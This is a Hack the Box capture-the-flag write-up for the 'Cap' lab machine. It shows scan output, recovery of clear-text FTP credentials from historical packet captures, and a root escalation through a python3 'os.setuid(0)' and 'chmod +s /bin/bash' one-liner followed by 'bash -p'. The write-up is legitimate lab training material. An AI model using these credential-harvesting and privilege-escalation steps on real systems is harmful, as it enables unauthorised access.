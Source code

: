 ```yaml
---
layout: default
title: Cap
parent: Hack the Box Labs
nav_order: 3
---
```

![Header](images/cap.png)
# Enumeration
Example of what is seen on the site. Appears to be nestat, IP Config, and some form of PCAP analysis pages via the menu. We also see that we're signed in as 'Nathan'.  
![1](Pasted image 20210606202210.png)  
![2](Pasted image 20210606202126.png)  
![3](Pasted image 20210605154704.png)
## Nmap Scan:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 15:44 MDT
Nmap scan report for cap.htb (10.129.88.224)
Host is up (0.085s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

---clipped---
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 136.22 seconds
```

## GoBuster
```
└─$ cat gobuster.txt~
/data (Status: 302)
/ip (Status: 200)
/netstat (Status: 200)
/capture (Status: 302)
```
## Nikto
```
└─# nikto -host 10.129.84.196            
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.84.196
+ Target Hostname:    10.129.84.196
+ Target Port:        80
+ Start Time:         2021-06-06 20:17:02 (GMT-6)
---------------------------------------------------------------------------
+ Server: gunicorn
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: HEAD, OPTIONS, GET
+ 7916 requests: 0 error(s) and 4 item(s) reported on remote host
+ End Time:           2021-06-06 20:29:41 (GMT-6) (759 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

- No Public Vulnerabilities published for VSFTP 3.0.3
- GoBuster identified a few paths, most of these readily available just by navigating around the site (no hidden admin or anything like that).

Every time I generate a new pcap, I notice that /data/# increments by 1.
![6](Pasted image 20210614213207.png)
I do some testing by sending it pings, attempting to connect to ftp and ssh, etc and inspect the pCAPs hoping to glean some relevant info. Since I see this incrementation I check to see if maybe I can investigate historical PCAPs, e.g. maybe some administrative tasks taking place before I even connected. We start at 0 and within, sure enough, is a clear text connection established to the FTP server including password:  
![4](Pasted image 20210614212825.png)  
![5](Pasted image 20210614212953.png)

Connect to SSH with the above credentials and grab the user flag.

### Privilege Escalation
```bash
nathan@cap:/$ sudo -l
[sudo] password for nathan:
Sorry, user nathan may not run sudo on cap.
nathan@cap:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/chsh
/usr/bin/su
/usr/bin/fusermount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/snap/snapd/11841/usr/lib/snapd/snap-confine
/snap/snapd/8542/usr/lib/snapd/snap-confine
/snap/core18/2066/bin/mount
/snap/core18/2066/bin/ping
/snap/core18/2066/bin/su
/snap/core18/2066/bin/umount
/snap/core18/2066/usr/bin/chfn
/snap/core18/2066/usr/bin/chsh
/snap/core18/2066/usr/bin/gpasswd
/snap/core18/2066/usr/bin/newgrp
/snap/core18/2066/usr/bin/passwd
/snap/core18/2066/usr/bin/sudo
/snap/core18/2066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2066/usr/lib/openssh/ssh-keysign
/snap/core18/1997/bin/mount
/snap/core18/1997/bin/ping
/snap/core18/1997/bin/su
/snap/core18/1997/bin/umount
/snap/core18/1997/usr/bin/chfn
/snap/core18/1997/usr/bin/chsh
/snap/core18/1997/usr/bin/gpasswd
/snap/core18/1997/usr/bin/newgrp
/snap/core18/1997/usr/bin/passwd
/snap/core18/1997/usr/bin/sudo
/snap/core18/1997/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1997/usr/lib/openssh/ssh-keysign
```

/bin/bash is what I want to run as root, looks like someone set the SUID bit on it already:
```bash
nathan@cap:~$ ls -la /usr/bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /usr/bin/bash
```

I could've skipped to running /bin/bash -p, but reset the machine to make sure this was the intended escalation path.

I know a way to set the SUID bit via python (thanks to the cyber mentor and tiberius' linux privelege escalation courses) and thankfully python3 is on this box
```bash
nathan@cap:~$ python3 --version
Python 3.8.5
nathan@cap:~$
```

Use python3 to set the SUID bit on /bin/bash
```bash
python3 -c 'import os; os.setuid(0);  os.system("chmod +s /bin/bash")'
```

Execute Bin/Bash elevated:
```bash
nathan@cap:~$ /bin/bash -p
bash-5.0# whoami
root
```

CD'd up to /root and cat'd out the root.txt
